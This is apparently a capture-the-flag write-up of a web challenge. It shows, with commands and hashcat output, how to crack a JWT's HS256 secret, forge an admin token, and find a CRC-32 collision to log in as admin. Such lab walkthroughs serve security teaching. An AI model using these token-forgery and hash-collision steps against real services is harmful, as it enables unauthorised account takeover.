 # Skylark Capsule

![](Pasted%20image%2020210809192708.png)

*TLDR: This is a 2 step challenge where the first steps consist in crack a JWT token and crafting a modified JWT token. The second steps consists of finding a CRC-32 hash collision in order to login to the admin account.*

The website is pretty empty when you navigate to it: 
![](Pasted%20image%2020210809193913.png)

We navigate to register and sign up with the following credentials `hello:hello`:
![](Pasted%20image%2020210809194246.png)

We navigate to capsule in order and find a get specs button:
![](Pasted%20image%2020210809194344.png)

Clicking on this button gives us a generic message without much context:
```
Successfully retrieved and reviewed your specs. You are all ready for launch.
```

By inspecting the request we see that the website appears to be using JWTs (furthermore the Angular favicon hints that this is a frontend application and therefore may be using JWTs):

![](Pasted%20image%2020210809194600.png)

We can decode quickly in the terminal by splitting on the dots (.), base64 decoding each parts and redirecting errors to `/dev/null`:
```
$ for i in `echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo2LCJ1c2VybmFtZSI6ImhlbGxvIiwiZW1haWwiOiJoZWxsbyIsInBhc3N3b3JkIjoiOTA3MDYwODcwIn0sImlhdCI6MTYyODUwMjE3NX0.t6P8-epQ1zXUbdgXaA7vQ67JP0ZWE8sy0RaVt55s8Y4" | tr "." "\n"`; do echo $i | base64 -d 2&>/dev/null; done
{"alg":"HS256","typ":"JWT"}{"data":{"id":6,"username":"hello","email":"hello","password":"907060870"},"iat":1628502175}
```

The JWT appears to be storing the email, the username and the password hash.

Try to set the algorithm to None didn't work, however since this is an HS256 token, it's signed using a secret and we can therefore try to bruteforce the secret key.

We can use hashcat to bruteforce the key as such:
```
# -m 16500 for JWT token mode
% hashcat -m 16500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-8665U CPU @ 1.90GHz, 2048/5918 MB allocatable, 3MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=16 -D KERN_TYPE=16511 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo2LCJ1c2VybmFtZSI6ImhlbGxvIiwiZW1haWwiOiJoZWxsbyIsInBhc3N3b3JkIjoiOTA3MDYwODcwIn0sImlhdCI6MTYyODUwMjE3NX0.t6P8-epQ1zXUbdgXaA7vQ67JP0ZWE8sy0RaVt55s8Y4:skylark140584

Session..........: hashcat
Status...........: Cracked
Hash.Type........: JWT (JSON Web Token)
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7Im...55s8Y4
Time.Started.....: Mon Aug  9 19:53:16 2021 (3 secs)
Time.Estimated...: Mon Aug  9 19:53:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1062.3 kH/s (2.22ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3707904/14344385 (25.85%)
Rejected.........: 0/3707904 (0.00%)
Restore.Point....: 3704832/14344385 (25.83%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: slabriderpro -> skykin

Started: Mon Aug  9 19:53:14 2021
Stopped: Mon Aug  9 19:53:20 2021
%                                                  
```

Using jwt.io we craft a JWT token with the admin's username and id 1 (we assume id 1 is the admin):
![](Pasted%20image%2020210809200049.png)

We use Burp Repeater to replay the `GET /user/capsule` request with our newly crafted token and we get our first flag:
![](Pasted%20image%2020210809200213.png)

We also get the admin's username, email and password "hash":
```
{
	"id":4,
	"username":"admin",
	"email":"admin@spacerace.com",
	"password":"-432570933"
}
```

![](Pasted%20image%2020210809201712.png)

The challenge description gives us a hint that this is a `non-cryptographic hashing algorithm`.

Looking at the non-cryptographic hash types, the first thing that comes up is CRC (Cyclic redundancy checks):

![](Pasted%20image%2020210809202017.png)

CRC-32 also appears to match our hash length.

From our earlier account, we know that the password `hello` hashes to `907060870`:
```
{"id":6,"username":"hello","email":"hello","password":"907060870"},"iat":1628502175}
```

Using ipython we can confirm that this is actually a CRC-32 hash: 
```
In [1]: import binascii

In [2]: print(binascii.crc32("hello"))
907060870
```

We know that the admin password has a CRC-32 hash of "-432570933" and since a CRC-32 hash length is only 32 bits and that its a non-cryptographic hashing algorithm, we can assume that we have to find a hash collision that matches "-432570933" to login to the admin's account.

Python CRC-32 hashing prior to python 3 used to allow negative CRC-32 checksums because it was using signed integers to store the result of the checksum. However, CRC-32 should only return unsigned integers. Hence, we need to convert it.

Using bit manipulation, we can convert it from an signed integer to an unsigned int:
```
In [3]: print -432570933 & 0xffffffff
3862396363
```

So if we manage to find a hash collision for 3862396363, we can use that to login as the admin user.

We couldn't find a program for this so we decide to write our own:
https://github.com/fyxme/crc-32-hash-collider

When we run it, we get a collision back pretty quickly:
```
$ go run collide.go
Collision found: 4iSg@
```

Again we can verify this collision hashes to "-432570933" using python:
```
In [1]: import binascii
In [2]: print(binascii.crc32("4iSg@"))
-432570933
```

Lastly we login to the web application as the admin user using `4iSg@` as the password.

This gives us our second and final flag for this challenge:
![](Pasted%20image%2020210809204115.png)
